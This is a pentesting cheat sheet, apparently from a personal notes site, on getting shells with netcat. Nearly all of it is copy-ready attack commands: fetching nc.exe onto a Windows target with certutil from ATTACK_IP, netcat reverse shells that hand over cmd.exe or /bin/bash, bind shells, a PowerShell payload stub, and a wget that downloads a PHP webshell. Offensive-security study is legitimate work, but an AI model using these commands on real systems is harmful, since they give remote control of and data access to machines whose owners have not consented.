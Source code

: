 # Shells

## NetCat

> Windows Binaries in Linux: _/usr/share/windows-binaries/_

#### trasfering nc.exe

```bash
# Transfer nc.exe binaries to windows target machine: 

# exec in Attack machine 
cp /usr/share/windows-binaries/nc.exe .
python -m SimpleHTTPServer 80

# exec in Windows target machine
certutil -urlcache -f http://ATTACK_IP/nc.exe

# Listener port on attack machine: 

# exec in Attack machine
nc -lnvp PORT

# Connect from Windows Target to Linux Attack machine

# exec in Windows target machine
nc.exe -nv ATTACK_IP ATTACK_OPEN_PORT
```

#### Send files via NC

```bash
# Recipient Machine: (Windows)
nc.exe -nvlp PORT > file.txt

# Sender Machine: (Linux)
nc -nv REC_IP REC_PORT < file.txt
```

***

## Reverse Shell

A reverse shell is a type of remote shell where the target connect directly to a listener on the attacker's system.

{% embed url="https://www.revshells.com/" %}



### PHP Shells

#### wwwolf-php-webshell

{% embed url="https://github.com/WhiteWinterWolf/wwwolf-php-webshell" %}

{% code title="Download the shell locally" overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/refs/heads/master/webshell.php 
```
{% endcode %}



### Windows Target

[#nc.exe-file-transfer](./#nc.exe-file-transfer "mention")

```bash
#Attacker Machine (Linux)
nc -lvnp PORT

# transfer the nc.exe file into the target machine

#Target Machine (Windows)
nc.exe -nv ATTACK_IP ATTACK_PORT -e cmd.exe

# Powershell
powershell -e "<PAYLOAD>"
```

### Linux Target

```bash
#Attacker Machine (Linux)
nc -lnvp PORT

#Target Machine (Linux)
nc -nv ATTACKER_IP ATTACKER_PORT -e /bin/bash
```

***

## Bind Shell

A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system.

### Windows Target

```bash
#Target Machine (Windows)
nc.exe -nvlp PORT -e cmd.exe

#Attack machine (Linux)
nc -nv TARGET_IP TARGET_PORT
```

### Linux Target

```bash
#Target Machine (Linux)
nc -nvlp PORT -c /bin/bash

#Attack Machine (Windows)
nc.exe -nv TARGET_IP TARGET_PORT
# Attack Machine (Linux)
mc -nv TARGET_IP TARGET_PORT
```



##





